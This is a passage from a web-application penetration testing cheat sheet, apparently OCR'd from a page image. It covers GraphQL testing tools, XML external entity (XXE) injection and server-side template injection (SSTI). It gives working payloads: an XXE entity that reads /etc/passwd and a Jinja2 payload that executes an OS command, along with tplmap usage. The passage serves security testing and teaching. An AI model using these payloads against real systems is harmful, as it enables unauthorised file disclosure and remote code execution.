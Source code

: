             # Usage
            python3 graphqlmap.py -u https://example.com/graphql -d
            ```
        *   **InQL:** Burp Suite extension for GraphQL testing.
    *   **Common Vulnerabilities:**
        *   **Denial of Service (DoS) via nested queries.**
        *   **Authorization bypasses in resolvers.**
    *   **clairvoyance:** A powerful GraphQL schema discovery tool.
        ```bash
        # Installation
        pip3 install clairvoyance

        # Usage
        clairvoyance https://example.com/graphql
        ```

### 3.10 XXE (XML External Entity)
*   **Testing:**
    *   If an endpoint accepts XML, try to inject an XXE payload.
    *   **Payload:**
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <foo>&xxe;</foo>
        ```

### 3.11 SSTI (Server-Side Template Injection)
*   **Testing:**
    *   Inject template syntax in input fields: `{{7*7}}`, `${7*7}`
    *   Use a decision tree to identify the template engine (e.g., Jinja2, Twig, Freemarker).
    *   **Payload (Jinja2):**
        ```
        {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
        ```
*   **Automated SSTI Detection:**
    *   **tplmap:** A tool for automating the detection and exploitation of SSTI.
        ```bash
        # Installation
        git clone https://github.com/epinna/tplmap.git
        cd tplmap
        pip install -r requirements.txt

        # Usage
        python2 tplmap.py -u "http://example.com/page?name=test"
        ```
